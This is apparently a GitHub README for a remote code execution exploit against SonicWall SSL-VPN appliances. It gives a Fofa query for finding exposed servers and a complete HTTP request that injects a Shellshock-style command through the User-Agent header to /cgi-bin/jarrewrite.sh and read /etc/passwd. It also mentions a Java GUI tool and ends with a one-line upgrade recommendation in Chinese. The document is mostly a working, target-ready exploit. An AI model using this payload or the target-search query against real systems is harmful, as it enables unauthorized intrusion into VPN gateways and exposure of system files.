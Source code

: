 # SonicWall-SSL-VPN-RCE
SonicWall-SSL-VPN-RCE


## Fofa
``` bash
server=="SonicWALL SSL-VPN Web Server"
```

## POC
``` javascript
GET /cgi-bin/jarrewrite.sh HTTP/1.1
Host: 103.x.x.x:4433
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: () { :; }; echo ; /bin/bash -c 'cat /etc/passwd'
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://103.x.x.x.x:4433/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: AOPortal_103.x.x.x=false; SessURL=https%3A%2F%2F103.x.x.x%3A4433%2Fcgi-bin%2Fwelcome
```
![img](https://blog-1259438478.cos.ap-nanjing.myqcloud.com/post-picture1/post-m-1.png)

java的gui版：

![img](https://blog-1259438478.cos.ap-nanjing.myqcloud.com/post-picture1/post-m-2.png)
## 修复建议

升级到Sonic SMA 8.0.0.4
